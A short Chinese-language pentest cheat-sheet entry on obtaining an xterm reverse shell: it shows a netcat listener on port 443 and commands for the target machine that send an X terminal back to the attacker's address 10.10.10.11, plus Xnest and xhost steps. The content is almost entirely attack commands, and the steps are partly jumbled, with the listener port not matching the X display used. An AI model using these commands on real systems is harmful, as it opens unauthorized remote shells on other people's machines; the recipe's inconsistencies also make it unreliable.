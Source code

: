 # nXterm反弹shell

首先在本地监听TCP协议443端口

```bash
nc -lvp 443

```

然后在靶机上执行如下命令：

```bash
xterm -display 10.10.10.11:1
Xnest :1
xhost +targetip

```

